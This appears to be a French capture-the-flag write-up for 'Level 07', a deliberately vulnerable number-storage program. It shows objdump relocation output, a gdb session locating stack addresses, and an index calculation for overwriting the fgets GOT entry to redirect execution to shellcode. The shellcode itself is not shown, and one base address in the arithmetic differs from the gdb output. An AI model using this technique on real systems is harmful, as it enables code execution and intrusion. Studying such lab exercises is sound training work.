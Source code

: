 # Level 07
<a href="/level08"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- On peut ecrire partout dans la memoire avec store sauf tout les 3 itterations
- Il suffit donc d'ecrire par dessus fgets, l'addresse vers la quelle on redirige
<pre>
objdump -R ./level07 

./level07:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R\_386\_GLOB\_DAT    \_\_gmon\_start\_\_
0804a040 R\_386\_COPY        stdin@@GLIBC\_2.0
0804a060 R\_386\_COPY        stdout@@GLIBC\_2.0
0804a000 R\_386\_JUMP\_SLOT   printf@GLIBC\_2.0
0804a004 R\_386\_JUMP\_SLOT   fflush@GLIBC\_2.0
0804a008 R\_386\_JUMP\_SLOT   getchar@GLIBC\_2.0
0804a00c R\_386\_JUMP\_SLOT   fgets@GLIBC\_2.0
0804a010 R\_386\_JUMP\_SLOT   \_\_stack\_chk\_fail@GLIBC\_2.4
0804a014 R\_386\_JUMP\_SLOT   puts@GLIBC\_2.0
0804a018 R\_386\_JUMP\_SLOT   \_\_gmon\_start\_\_
0804a01c R\_386\_JUMP\_SLOT   \_\_libc\_start\_main@GLIBC\_2.0
0804a020 R\_386\_JUMP\_SLOT   memset@GLIBC\_2.0
0804a024 R\_386\_JUMP\_SLOT   \_\_isoc99\_scanf@GLIBC\_2.7
</pre>

- On ne peut pas rediriger vers l'environnement ou les argument car il sont supprimé
- Il faut donc rediriger vers le tableau sur le quelle ont ecrit
- Dans le ltrace il n'y a pas l'addresse de l'index 1 du tableau
- Pour la connaitre il suffit donc de connaitre la difference entre le retour de fgets et l'index 1 du tableau puis de faire le calcul
- Dans gdb on print donc ces deux addresses
<pre>
(gdb) b *0x08048887
Breakpoint 1 at 0x8048887
(gdb) b *0x80486cb
Breakpoint 2 at 0x80486cb
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048887 in main ()
(gdb) x $eax
0xffffd5e8:     0x726f7473  # retou de fgets
(gdb) c
Continuing.
 Number: 123
 Index: 1

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd458:     0x00000000 # index 1 du tableau

Input command: store
 Number: 1
 Index: -2

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd44c:     0xffffd6b8 # index -2 du tableau
</pre>
- On peut faire nos calcul de difference:
 - pour 1: 0xffffd5e8 - 0xffffd458 = 0x190 = 400
 - pour -2: 0xffffd5e8 - 0xffffd44c = 0x19c = 412
- Se qui donne:
 - L'adresse de -1 est: 0xffffd608 - 0x190 = 0xffffd478
 - L'index de l'addresse de fgets est: ((0x0804a00c - (0xffffd608 - 0x19c)) / 4) - 2 = -1040108826
- Apres j'ai créé un programme qui modifie un shellcode en lui ajouter des jump se qui le permet de sauté les index ou je ne peut pas ecrire
- Puis qui le converti en entrée pour le programme
- Et voila il suffit apres cela de mettre l'entrée dans l'executable

